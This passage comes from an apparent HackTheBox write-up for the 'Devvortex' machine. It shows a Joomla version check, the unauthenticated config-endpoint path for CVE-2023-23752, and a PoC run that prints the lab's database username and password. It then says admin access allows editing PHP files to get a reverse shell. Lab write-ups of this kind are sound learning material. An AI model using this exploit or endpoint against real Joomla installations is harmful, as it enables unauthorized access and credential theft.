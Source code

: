 ```bash
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found
```

The important information from this tool is the version number: 4.2.6

[https://github.com/adhikara13/CVE-2023-23752](https://github.com/adhikara13/CVE-2023-23752) is a poc for a joomla unauthorized access to webservice endpoints for versions 4.0.0-4.2.7, in this case it reads the username and password from  **/api/index.php/v1/config/application?public=true**.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Devvortex]
└──╼ $python3 cve-2023-23752.py -u dev.devvortex.htb -o joomla
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => joomla
```

## PHP Rev Shell

{% include img_link src="/img/devvortex/devvortex_admin_front" alt="front_page" ext="png" trunc=600 %}

With these admin permissions I have the capability to edit php files, and can get a shell as the underlying service (www-data). 
